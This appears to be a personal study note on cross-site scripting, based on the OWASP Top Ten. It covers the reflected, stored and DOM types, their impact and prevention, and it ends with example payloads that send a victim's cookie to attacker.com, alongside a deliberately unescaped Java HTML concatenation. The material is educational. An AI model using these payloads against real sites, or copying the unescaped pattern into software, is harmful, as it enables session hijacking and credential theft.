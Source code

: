 ```yaml
---
title: XSS
---
```


## description

xss flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser api that can create html or JavaScript.

xss allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

**TLDR:** unintended execution of malicious scripts in a website

## link

[https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS)](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS))

## overview

### attack vector

* app specific, but generally
* unfiltered input and stuff
* almost all places for [injection flaws](https://owasp.org/www-community/Injection_Flaws)
* ref [[injection]]
* execute scripts (js, php)

### security weakness

* ref [[injection]]
* stupid parsers and filtering

### impact

* moderate for reflected and dom xss
* severe for stored xss
* remote code execution on the victim’s browser
  * steal credentials, sessions
  * deliver malware
* **if xss is present, all [[csrf]] protection is defeated**

## vuln

### reflected xss

* app or api includes unvalidated and unescaped user input as part of html output
* a successful attack can allow the attacker to execute arbitrary html and js in the victim’s browser
* typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar

### stored xss

* app or api stores unsanitized user input that is viewed at a later time by another user or an administrator
* stored xss is often considered a high or critical risk

### dom xss

* js frameworks, single-page applications, and apis that dynamically include attacker-controllable data to a page are vulnerable to dom xss
* ideally, the app would not send attacker-controllable data to unsafe js apis

## prevention

* separate untrusted data and browser content
* frameworks that automatically prevent xss like ruby on rails and react js
* content security policy for xss mitigation
* encoding and escaping properly
  * escape untrusted http req

## attack example

```html
<img src="http://attacker.com/?cookie=" + document.cookie>
```

```js
page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

attacker can send the `CC` query as

```html
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

and the session cookie is sent to the attacker
